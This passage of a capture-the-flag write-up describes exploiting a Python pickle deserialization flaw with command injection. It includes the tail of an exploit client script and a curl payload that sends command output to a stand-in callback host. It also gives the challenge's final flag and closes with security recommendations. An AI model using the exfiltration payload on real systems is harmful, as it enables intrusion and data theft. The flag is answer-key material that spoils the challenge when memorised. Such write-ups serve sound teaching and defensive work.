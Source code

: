 ```python

            # Send request and get response
            response = send_request(token)

            # Parse and display result
            result = parse_response(response)
            print(f"Result: {result}\n")

        except KeyboardInterrupt:
            print("\nExiting...")
            break
        except Exception as e:
            print(f"Error: {str(e)}\n")

if __name__ == "__main__":
    main()
```

![Console script output](Pasted%20image%2020250218150337.png)

Command execution verification requires output exfiltration since responses only show exit codes. Using an HTTP callback service captures command output:

```python
# Exfiltration payload
cmd = f'cmd=`{command}` && curl "https://callback.domain/?=$(cmd)"'
```

The callback listener demonstrates successful command execution:

![](Pasted%20image%2020250218150408.png)

![Callback listener showing command output](Pasted%20image%2020250218150514.png)

This exploitation method combines deserialization vulnerability with command injection and data exfiltration techniques. The pickle vulnerability provides initial code execution, while DNS/HTTP callbacks bypass output restrictions.
## Successful Exploitation

The first flag part (`oh_h3l1_`) enables targeted file searching. A grep command reveals the complete flag:

![Flag exfiltration output](Pasted%20image%2020250218150553.png)

Final flag: `E4HX{oh_h3l1_n44www_y0u_8r0k3_5th_w4l1}`

## Security Implications

This challenge demonstrates critical vulnerability patterns:
1. Client-side only authentication
2. Unsafe deserialization of user-controlled data
3. Command injection leading to RCE
4. Data exfiltration via DNS/HTTP requests
## Security Recommendations
- Server-side authentication implementation
- Avoiding pickle deserialization of untrusted data
- Input validation and sanitization